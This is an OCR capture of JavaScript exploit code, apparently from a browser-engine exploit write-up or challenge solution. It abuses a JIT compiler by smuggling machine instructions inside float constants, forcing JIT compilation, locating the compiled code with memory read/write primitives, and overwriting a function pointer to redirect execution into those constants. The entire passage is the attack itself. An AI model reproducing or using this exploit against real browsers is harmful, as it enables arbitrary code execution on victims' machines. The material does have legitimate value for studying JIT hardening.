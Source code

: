 ```js
   0x203fc112970:	mov    QWORD PTR [rbp-0x68],r11
   0x203fc112974:	movabs r11,0xfffa80000000000b
   0x203fc11297e:	mov    QWORD PTR [rbp-0x70],r11
   0x203fc112982:	movabs r11,0xdeadbeefbaadc0de   <--- Locate this marker
   0x203fc11298c:	mov    QWORD PTR [rbp-0x50],r11
   0x203fc112990:	movabs r11,<whatever>           <-- Jump here
   0x203fc11299a:	mov    QWORD PTR [rbp-0x58],r11
 */
// Each of our constants should be a short instruction (< 8 bytes), followed by a relative jump into the next
const jitter = function() {
    let A = -1.1885958399657559e+148;
    let B = 2.4877840611688293e-275;
    let C = 2.4879820007592195e-275;
    let D = 2.4879355641325583e-275;
    let E = 2.5047751329248284e-275;
    let F = 2.4881023834790942e-275;
    let G = -6.828523606692364e-229;
}
// Using the builtin `inIon()` function, I calculated the number of loops required
// to optimize the native JIT
for (var i = 0; i < 20000; i++) jitter();

// <function> + 5 * 8 is the JITInfo pointer
f_addr = addrof(jitter);
jitinfo = f_addr + 40n;
f_ptr = arr2int(read(jitinfo, 8), true);
jitcode = arr2int(read(f_ptr, 8), true);
// jitcode is the address of our actual jit code
console.log("JIT Code located at " + jitcode.toString(16));
// Resolve gadgets

// Locate our marker constant in the optimised code
var off = 0n;
var found = false;

/*
for (off = 0n; off < 0x1000n; off++ ) {
    let val = arr2int(read(jitcode + off, 8), true);
    if (val == 0xdeadbeefbaadc0den) {
        found = true;
        break;
    }
    off++;
}
 */
off = 402n;
found = true;
console.log(off);

if (found) {
    write(f_ptr, int2arr(jitcode + off + 14n));
    console.log((jitcode + off + 14n).toString(16));
} else {
    console.log("Marker not found");
}
jitter()
```
